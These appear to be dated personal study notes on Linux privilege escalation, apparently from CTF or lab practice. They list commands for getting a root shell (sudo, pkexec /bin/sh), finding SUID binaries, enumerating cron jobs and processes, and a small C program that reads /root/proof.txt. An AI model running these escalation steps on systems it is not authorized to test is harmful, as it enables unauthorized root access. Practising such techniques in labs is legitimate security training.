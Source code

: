 ### 29082023Tue


![[Linux Privilege Escalation.png]]

### 01092023Fri

```
sudo -i
```

```
sudo su
```

```
find / -perm -4000 2>/dev/null
```

```
cat /etc/polkit-1/localauthority.conf.d/*
```

```
pkexec "/bin/sh" #You will be prompted for your user password
```

```
sudo pkexec /bin/sh
```

```
crontab -l
```

```
ls -al /etc/cron* /etc/at*
```

```
find / -name backup 2>/dev/null
```

```
tar -zxvf backup
```

```
ps -aux
```

```
pstree
```

```
ps -def
```

```
int main(void)
{
	system("cat /root/proof.txt")
}
```




